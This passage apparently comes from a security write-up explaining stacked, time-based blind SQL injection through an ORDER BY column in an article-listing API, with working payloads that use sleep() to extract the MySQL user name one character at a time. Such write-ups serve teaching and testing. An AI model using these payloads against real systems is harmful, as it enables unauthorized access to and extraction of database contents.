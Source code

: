 Would return:
```json
[
    {
        "id":127,
        "title":"A",
        "status": 1
    }
]
```

### First attempt (stacked and blind - timed)

It's easy to see we can inject stacked queries by just making use of the semi-colon `;` after each query.

An example:
```
`status`; SELECT (SELECT CASE WHEN (user() LIKE "w%") THEN sleep(5) ELSE 1 END);
```

This worked, because it turned the query into this (reformatted to make it more readable):

```
SELECT * FROM `article` 
WHERE (`status`=1) 
AND (`category_id`=15) 
ORDER BY `status`;

SELECT (SELECT CASE WHEN (user() LIKE "w%") THEN sleep(5) ELSE 1 END);
```

\* *A bit more on why I used CASE instead of IF later in the post*

The output we received did not change though, because it was using the first query to obtain the values for the JSON output.

#### How does blind - timed SQL injection work?

What the previously query would do is if the MySQL user starts with a `w`, it will wait (sleep) 5 seconds, before giving the control back to the HTTP request.  All we do is work out the duration between the request that we sent, and the response that we receive.  If it takes longer than a normal request, we know that it does start with a `w`, and if it responds within the normal duration, we know that it doesn't start with a `w`.  

Once we know the `w` is what the it starts with, we start looking for the next character in the alphabet, and checking if it's valid following the same method.

For example, we'll search for `we`:
```
SELECT * FROM `article` 
WHERE (`status`=1) 
AND (`category_id`=15) 
ORDER BY `status`;

SELECT (SELECT CASE WHEN (user() LIKE "we%") THEN sleep(5) ELSE 1 END);
```
